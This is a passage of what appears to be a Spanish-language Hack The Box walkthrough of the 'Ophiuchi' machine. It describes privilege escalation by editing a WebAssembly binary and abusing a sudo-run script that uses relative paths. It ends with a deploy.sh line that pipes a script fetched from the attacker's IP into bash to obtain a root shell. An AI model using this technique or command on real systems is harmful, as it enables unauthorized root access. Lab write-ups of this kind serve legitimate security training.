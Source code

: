  <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Ophiuchi/intrusion/pru.png">
 </p>

Como se puede ver en **main.wasm** no esta seteado el valor una forma de cambiar esto es compartiendo me el binario a mi maquina y con la utilidad **[wabt](https://github.com/webassembly/wabt)** modificar ese valor de **main.wasm**.

Para esto me enviare el binario a mi maquina con nc.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Ophiuchi/intrusion/com.png">
</p>

Una vez que ya esta en mi maquina con la herramienta **wasm2wat** convertimos el binario a wat para poder modificar su valor:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Ophiuchi/intrusion/com1.png">
</p>

Ahora que tengo el **main.wat** puedo modificar el valor de **$info** para eso cambiare la  linea 4:

```bash
  before
   4   │     i32.const 0)
  after
   4   │     i32.const 1)
```
Una vez que se cambia el valor uso la herramienta **wat2wasm** y me comparto con python un servicio http en mi equipo para que desde la maquina victima con **wget** descargarme el archivo **main.wasm** modificado.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Ophiuchi/intrusion/com2.png">
</p>

Ya con el binario modificado en mi maquina vuelvo a ejecutar el comando con **sudo** recordando que si me ejecuta el **deploy.sh** me enviar el output del **whoami** a mi maquina por el puerto 443.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Ophiuchi/intrusion/who.png">
</p>

Como se puede ver efectivamente a la hora de ejecutar el comando con sudo me toma mis binarios ya que no están siendo llamados de forma absoluta si no relativa, por ende como veo que puedo ejecutar comando como root me entablare una shell a mi maquina modificando el archivo **deploy.sh** con el siguiente contenido:

**deploy.sh**
```bash
  #!/bin/bash

  curl http://10.10.15.125/winsad.sh | bash
```
